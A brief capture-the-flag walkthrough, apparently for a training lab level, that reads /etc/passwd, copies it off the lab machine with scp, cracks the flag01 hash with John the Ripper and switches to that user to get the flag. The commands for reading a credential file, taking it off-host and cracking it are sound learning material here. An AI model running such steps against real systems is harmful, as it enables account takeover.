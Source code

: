 # Check encrypted passwords
`cat /etc/passwd | grep flag01`

# Download file to have root permissions on local machine
`scp -P 4242 level01@192.168.56.101:/etc/passwd .`

# Use John the Ripper to crack the password
`john passwd`
`42hDRfypTqqnw` -> `abcdefg`

# Switch user and get the flag
```bash
su flag01
getflag```
